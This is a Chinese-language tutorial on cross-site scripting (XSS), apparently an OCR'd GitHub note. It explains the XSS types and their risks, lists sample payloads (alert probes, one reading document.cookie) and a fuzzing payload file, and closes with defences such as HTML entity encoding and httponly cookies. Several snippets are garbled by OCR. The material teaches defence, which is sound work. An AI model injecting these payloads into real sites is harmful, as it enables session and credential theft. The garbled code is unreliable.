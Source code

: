 # XSS跨站脚本攻击

## 漏洞原理

Cross-Site Scripting (跨站脚本攻击)简称XSS

攻击者**输入**恶意的js代码，由于开发未对输入进行**过滤**，未在数据输出时进行**转义**，导致恶意js代码在客户端上**执行**。

xss分类:
两类:持久型和非持久型
三类:反射型、存储型、DOM型

## 漏洞危害

信息窃取:用户凭证、用户账号密码
键盘记录
网络钓鱼
用户劫持
网页挂马
暗链
xss ddos
xss蠕虫

## 漏洞利用

### 反射型XSS

```
<script>alert(1111)</script>
```

```
name=<img src=1 onerror=alert(1)>
```

### 存储型XSS

1.攻击者将恶意代码提交到目标网站的数据库中。
2.受害者打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在HTML中返回给浏览器。
3.受害者浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4.恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

```
hi"><script>alert(document.cookie)</script>
```

```
<input onfocus=alert("好好学习，天天向上!") autofocus>
```

### DOM型XSS

```
'onclick="alert(123)">
```

### XSS模糊测试

xss_payload.txt

```
<script>alert(8888 )</script> 
<img src=1 onerror=alert(1)>
<script>confirm(8888)</script>
<script>prompt(8888)</script>
<anytag onmouseover=alert(1)>h 
<anytag onc Lick=alert(2)>h
<a onmouseover=alert(3)>h
<a onclick=alert(4)>h
<a href=javascript:alert(5)>h
<button/onclick=alert(6)>h
sform onsubmit=alert(10)><button>h
<img src=x onerror=alert(11)> 29
<meta http-equiv="refresh" content="0;
url=data:text/html,<script>alert(15)</script>">

```

### XSS防御方法

#### 代码实例：

String encodedContent = ESAPI.encoder().encodeForHTML(request.getParameter("inut');

```
<input type="text" value="<%= getParameter("keyword") %>">
<button>搜索</button>
<div>
您搜索的关键词是: <%=getParameter ("keyword") %>
</div>
```

构造链接: 

```
http://xxx/search?keyword="><script>alert('xss');</script>
```

返回代码

```
<input type="text" value=""><script>alert('XSS') ;</script>">
<button>搜索</button>
<div>
您搜索的关键词是: "><script>alert('XSS');</script>
</div>
```

#### 防御方法：

escapeHTML()：HTML实体编码

```
<	&it;
>	&gt;
"	&quot;
'	&#x27;
&	&amp;
/	&#x2F
```

```
<input type="text "
value=" &quot;&gt;&lt;script&gt;alert(&#x27;XSS&#x27;);&lt;&#x2F;script&gt;">
<button>搜索</button>
<div>
您搜索的关键词是: &quot;&gt;&lt;script&gt;alert(&#x27;XSS&#x27;);&1t;&#x2F;script&gt;
</div>
```

输入过滤，黑名单，过滤尖括号，单双引号#号

输出转义

针对于复杂文本，首先是过滤，使用白名单的方式，只允许用户输入简单标签，然后对于难以处理的标签进行转义编码，过滤或者编码之后，再把处理过后的数据放到<p>标签或者<div>标签等安全的HTML标签进行输出

添加httponly参数

